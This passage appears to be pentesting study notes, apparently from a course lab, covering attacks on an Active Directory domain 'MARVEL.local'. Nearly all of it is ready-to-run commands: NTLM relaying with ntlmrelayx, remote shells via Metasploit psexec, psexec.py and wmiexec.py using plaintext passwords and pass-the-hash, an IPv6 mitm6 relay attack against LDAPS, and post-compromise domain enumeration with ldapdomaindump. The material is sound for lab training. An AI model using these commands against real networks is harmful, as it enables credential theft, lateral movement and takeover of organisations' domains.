 5.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

Reminder! Run commands via ntlmrelayx.py
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

Gaining Shell Access=>

First Way:
We can use Metasploit for this.
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

Second Way:
We can use psexec.py to access
```bash
psexec.py marver.local/fcastle:'Password1'@10.0.0.25
```

Third way:
Again, we use psexec.py to access , but with user's hashes (LM:NT), it is like Pass-The-Hash attack
```bash
psexec.py administrator@10.0.0.25 --hashes [LM-HASH]:[NTLM-HASH]
```

Fourth Way:
If psexec.py doesn't work for third way,
you need to use **wmiexec.py** as below.
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```


IPv6 attacks=>

1.Open **mitm6** for target domain
```bash
sudo mitm6 -d marvel.local
```

2.At the same time, open **ntlmrelayx.py**
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

3.You will get results like this from **'/home/kali/lootme/domain_computers.html'**


# Post Compromise Enumeration for Active Directory

Domain Enumeration with **ldapdomaindump**=>
1.Run below command
```bash
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle\' -p Password1
```
2.Then do **ls** command to see all things.
